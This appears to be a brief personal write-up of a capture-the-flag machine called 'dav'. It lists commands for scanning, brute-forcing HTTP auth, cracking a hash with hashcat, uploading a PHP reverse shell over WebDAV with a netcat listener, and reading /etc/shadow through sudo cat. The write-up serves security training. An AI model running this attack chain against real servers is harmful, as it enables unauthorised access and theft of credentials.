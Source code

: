 ```yaml
---
date: 2024-06-19
author: mrashco
title: dav
tags: 
categories: 
series:
---
```

[YouTube Walkthrough](https://youtu.be/UDLqISuGiEY) 

rustscan

- 80
- Apache/2.4.18

feroxbuster

- /webdav

Try: Burpsuite - [bruteforce basic http auth](https://securityonline.info/use-burp-suite-brute-force-http-basic-authentication/)

Search - [webdav default credentials](https://search.brave.com/search?q=webdav+default+credentials&source=web) [^](https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html)

- w*****:x*****

`hashid $hash`

Try: MD5(APR) or Apache MD5 [^](https://hashcat.net/wiki/doku.php?id=example_hashes)

- `hashcat -m 1600 hash.txt $rockyou.txt`

`cadaver <http://$ip/webdav`> [^](https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/)

- revshell = shell.php
- `put shell.php`
- `nc -lnvp $port`
- `http://$ip/webdav/shell.php`

Upgrade Shell

- `python3 -c "import pty; pty.spawn('/bin/bash')"`
- `[CTRL+Z]`
- `stty raw -echo;fg`
- `export TERM=xterm`

PrivEsc [^](https://www.hackingarticles.in/linux-for-pentester-cat-privilege-escalation/)

- `sudo -l` = `/bin/cat`
- `cat /etc/shadow`
- `cat /root/root.txt`